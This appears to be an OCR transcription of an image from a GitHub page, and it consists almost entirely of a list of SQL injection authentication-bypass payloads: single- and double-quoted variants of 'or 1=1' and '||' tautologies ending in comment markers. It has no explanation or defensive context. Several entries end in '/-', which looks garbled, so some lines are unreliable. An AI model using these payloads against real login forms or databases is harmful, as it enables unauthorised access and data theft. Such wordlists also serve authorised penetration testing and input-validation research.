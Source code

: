 ' or 1=1 --'
' or 1=1 -'
' or 1=1 #'
' or 1=1 /-'
' or 1 --'
' or 1 -'
' or 1 #'
' or 1 /-'
' || 1=1 --'
' || 1=1 -'
' || 1=1 #'
' || 1=1 /-'
' || 1 --'
' || 1 -'
' || 1 #'
' || 1 /-'
" or 1=1 --"
" or 1=1 -"
" or 1=1 #"
" or 1=1 /-"
" or 1 --"
" or 1 -"
" or 1 #"
" or 1 /-"
" || 1=1 --"
" || 1=1 -"
" || 1=1 #"
" || 1=1 /-"
" || 1 --"
" || 1 -"
" || 1 #"
" || 1 /-"
